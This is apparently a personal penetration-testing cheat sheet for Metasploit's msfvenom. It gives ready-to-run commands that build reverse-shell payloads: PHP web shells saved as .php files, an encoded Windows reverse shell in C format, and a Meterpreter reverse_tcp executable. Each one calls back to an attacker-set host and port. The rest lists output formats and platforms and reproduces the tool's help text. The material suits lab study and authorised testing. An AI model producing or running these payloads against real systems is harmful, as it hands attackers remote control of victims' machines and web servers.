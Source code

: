 ## MSFvenom
------------
https://www.offensive-security.com/metasploit-unleashed/Msfvenom/

https://www.offensive-security.com/metasploit-unleashed/Msfvenom/
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

- Generates shellcode

+ So if I have a PHP webserver on Linux and want to create a reverse shell:
`# msfvenom -f raw -p php/reverse_php lhost=192.168.56.103 lport=443 > shell2.php`
`# msfpayload -p php/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=443 > shell3.php`

```
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

Payloads:  
```
root@kali:~# msfvenom -l payloads
```

The Flags:
- format flag, what is the output supposed to look like?
  ```
  # msfvenom --help-formats
  Executable formats
  asp, aspx, aspx-exe, dll, elf, elf-so, exe, exe-only, exe-service, exe-small,
  hta-psh, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
  psh-cmd, vba, vba-exe, vba-psh, vbs, war
  Transform formats
  bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl,
  powershell, ps1, py, python, raw, rb, ruby, sh,
  vbapplication, vbscript
  ```


–platform
  Cisco or cisco
  OSX or osx
  Solaris or solaris
  BSD or bsd
  OpenBSD or openbsd
  Firefox or firefox
  BSDi or bsdi
  NetBSD or netbsd
  NodeJS or nodejs
  FreeBSD or freebsd
  Python or python
  AIX or aix
  JavaScript or javascript
  HPUX or hpux
  PHP or php
  Irix or irix
  Unix or unix
  Linux or linux
  Ruby or ruby
  Java or java
  Android or android
  Netware or netware
  Windows or windows

* Create executable for meterpreter session
```
# msfvenom -a x86 --platform Windows -p windows/meterpreter_reverse_tcp LHOST=10.0.0.11 LPORT=4444 -f exe > reverse.exe
```



* help
```
root@kali:~# msfvenom -h
Error: MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options]

Options:
    -p, --payload            Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled             Prepend a nopsled of [length] size on to the payload
    -f, --format              Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder            The encoder to use
    -a, --arch                  The architecture to use
        --platform          The platform of the payload
        --help-platforms             List available platforms
    -s, --space               The maximum size of the resulting payload
        --encoder-space       The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars             The list of characters to avoid example: '\x00\xff'
    -i, --iterations           The number of times to encode the payload
    -c, --add-code              Specify an additional win32 shellcode file to include
    -x, --template              Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out                   Save the payload
    -v, --var-name              Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```
